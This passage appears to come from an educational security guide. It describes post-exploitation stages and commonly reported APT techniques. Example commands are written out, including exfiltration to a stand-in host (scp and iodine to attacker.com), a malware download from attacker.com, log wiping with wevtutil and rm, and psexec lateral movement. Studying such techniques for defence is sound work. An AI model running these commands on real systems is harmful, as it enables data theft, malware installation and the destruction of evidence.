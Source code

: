 **Step 4: Lateral Movement**

- **Objective:** Move within the target network to compromise other systems.
- **Techniques:** Attackers use protocols like SMB (Windows) or SSH (Linux) to move between systems, leveraging tools like **PsExec** or **WMIC** for Windows, and `ssh` hopping on Linux.
    - **Example Command:**
        - Windows: `psexec \\target_ip -u admin -p password cmd`
        - Linux: `ssh user@remote_system`

**Step 5: Data Exfiltration**

- **Objective:** Extract sensitive data from the compromised system/network.
- **Techniques:** Data can be exfiltrated using encrypted communication channels (e.g., SCP, TLS), DNS tunneling, or via cloud services like AWS S3.
    - **Example Command:**
        - Windows/Linux: `scp sensitive_file.txt user@attacker.com:/home/user/data`
        - Linux (DNS tunneling): `iodine -f 10.0.0.1 attacker.com`

**Step 6: Evasion and Covering Tracks**

- **Objective:** Avoid detection by security tools and remove evidence of compromise.
- **Techniques:** Attackers delete logs, obfuscate malware code, and disable antivirus tools. Commands like `wevtutil` (Windows) or log file deletion on Linux help remove traces of the attack.
    - **Example Command:**
        - Windows: `wevtutil cl System`
        - Linux: `rm -rf /var/log/auth.log`

### Perspective

Advanced Persistent Threat (APT) groups frequently use a variety of techniques across different stages of the attack lifecycle, particularly during post-exploitation. These techniques are gathered and reported in threat intelligence reports like MITRE ATT&CK, Red Canary’s “Threat Detection Report,” and reports from security vendors. Below is a summary of some of the most commonly observed techniques from recent APT reports.

|**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Execution**|**PowerShell**|Executing scripts via PowerShell on Windows systems.|`powershell.exe -ExecutionPolicy Bypass -File C:\path\to\script.ps1`|
||**AppleScript (macOS)**|Abusing AppleScript to execute commands remotely or automate malicious tasks.|`osascript -e 'tell application "System Events" to keystroke "Hello"'`|
||**Command and Scripting Interpreter**|Using Bash or CMD for running scripts and commands across platforms.|`bash -c 'wget http://attacker.com/malware.sh'`|
||**Reflective DLL Injection (Windows)**|Injecting a malicious DLL into a trusted process to evade detection.|`rundll32.exe malicious.dll, DllMain`|
||**Rundll32 Execution (Windows)**|Executing code through the `rundll32.exe` utility on Windows systems.|`rundll32.exe shell32.dll, Control_RunDLL malware.dll`|

|**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Exfiltration**|**Cloud Credential Theft (AWS)**|Stealing AWS tokens and credentials to access sensitive cloud services.|`aws s3 cp s3://sensitive-bucket /local --recursive`|
||**DNS Tunneling**|Exfiltrating data via DNS requests, often bypassing firewall controls.|`iodine -f 10.0.0.1 attacker.com`|
||**Encrypted Channels**|Using encrypted protocols such as TLS or SSH to exfiltrate data, evading detection by network monitoring tools.|`scp sensitive_data.txt user@attacker.com:/path`|
||**Steganography**|Embedding sensitive data into images or multimedia files to avoid detection during exfiltration.|`steghide embed -cf cover.jpg -ef data.txt`|
||**Email Forwarding Rules**|Creating hidden email forwarding rules to siphon sensitive data from target inboxes.|Using cloud-based APIs or user access to create forward rules.|
